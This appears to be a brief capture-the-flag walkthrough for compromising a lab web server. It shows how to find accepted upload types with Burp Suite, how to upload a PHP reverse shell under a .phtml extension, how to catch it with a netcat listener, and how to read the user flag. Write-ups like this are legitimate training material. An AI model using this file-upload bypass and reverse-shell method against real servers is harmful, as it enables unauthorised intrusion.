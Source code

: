 # Compromise the webserver

## Burpsuite

```text
use Burpsuite to see what files can be uploaded
```

## Reverse shell

```text
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
File extension can be changed to see what can be uploaded
```

## Listen to connections using Netcat

```bash
nc -lvnp <PORT>  # '1234' is the port on the reverse-shell
```

## Shell is at

```text
http://<ip>:3333/internal/uploads/php-reverse-shell.phtml
```

## Flag is

```bash
cat /home/bill/user.txt
```
